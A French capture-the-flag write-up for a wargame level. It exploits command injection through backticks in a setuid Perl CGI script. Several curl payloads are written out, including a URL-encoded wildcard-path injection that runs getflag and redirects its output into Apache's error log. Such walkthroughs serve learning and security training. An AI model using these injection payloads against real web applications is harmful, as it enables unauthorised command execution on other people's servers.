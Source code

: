 # Level12

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl

On trouve un script perl avec setuid/setgid

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";


sub t {
  $nn = $_[1];
  $xx = $_[0];
  # Transforme le lowercase en uppercase
  $xx =~ tr/a-z/A-Z/;
  # Supprime tout ce qui suis un espace?
  $xx =~ s/\s.*//;
  # ICI il y a une faille c'est le subshell avec ``, ça execute le parametre, mais il y a une substitution dessus avant
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

# Si il y a 1 parametre print '..' sinon '.'
sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
# Prend 2 parametres x et y
n(t(param("x"), param("y")));
```

Un script CGI donc servi par un serveur web

On peut le verifier avec un curl depuis notre machine

	$ curl -I 192.168.1.27:4646
	HTTP/1.1 200 OK
	Date: Fri, 29 Nov 2019 00:00:51 GMT
	Server: Apache/2.2.22 (Ubuntu)
	Vary: Accept-Encoding
	Content-Length: 2
	Content-Type: text/html

La faille est le subshell avec ``, ça execute le parametre, mais il y a une substitution dessus avant

``` perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

Il donc faut passer en parametre "x" une commande a executer, MAIS ce sera transformé en majuscule

Peut on passer par une variable d'env?

	$ export CMD="getflag > /tmp/coucou && chmod 777 /tmp/coucou"
	$ curl '192.168.1.27:4646?x=`$CMD`'

Ça ne fonction pas parce que l'environnement est propre a level12 et flag12 ni aura pas acces

Si un fichier à un nom unique, on peut le trouver ou l'executer dans le shell bash avec un wildcard

exemple : `/*/ls` trouve `/bin/ls`

On va creer un lien vers getflag en majuscule

	$ ln -s /bin/getflag /tmp/GETFLAG

	$ /*/GETFLAG
	Check flag.Here is your token :
	Nope there is no token here for you sorry. Try again :)


Cela execute bien getflag via le lien

On a aussi besoin d'un fichier pour récupérer la sortie de getflag

	$ echo coucou > /tmp/COUCOU
	$ cat /*/COUCOU
	coucou

Ok donc il faut rediriger getflag vers ce fichier dans la commande injectée

	$ curl '192.168.1.27:4646?x=;/*/GETFLAG > /*/COUCOU;'

Ne fonctionne pas

	$ curl '192.168.1.27:4646?x=$(/*/GETFLAG>/*/COUCOU)'

Non plus

Pourquoi? On a acces aux logs Apache, regardons

	$ tail /var/log/apache2/error.log
	[Fri Nov 29 17:23:44 2019] [error] [client 192.168.1.22]
	[Fri Nov 29 17:23:59 2019] [error] [client 192.168.1.22] sh: 1:
	[Fri Nov 29 17:23:59 2019] [error] [client 192.168.1.22] cannot create /*/COUCOU: Directory nonexistent
	[Fri Nov 29 17:23:59 2019] [error] [client 192.168.1.22]

On a fait une erreur. La substitution enleve bien tout ce qui suis un espace, donc il ne faut pas en mettre

On va plutot essayer de récupérer dans les logs d'erreur d'apache en redirigeant sur la sortie d'erreur plutot que dans le fichier, ce sera plus simple étant donné qu'on y a acces

	$ curl '192.168.1.27:4646?x=`/*/GETFLAG>&2`'

Ca ne fonctionne pas, il prend & comme un second argument parce que c'est une url... Il faut l'encoder avec la convention des urls

Encoder l'url https://www.urlencoder.org/

	$ curl '192.168.1.27:4646?x=`%2F%2A%2FGETFLAG%3E%262`'

	$ tail /var/log/apache2/error.log
	[Fri Nov 29 18:18:59 2019] [error] [client 192.168.1.22] Check flag.Here is your token : XXXXXXXXXXXXXXXXXxxx
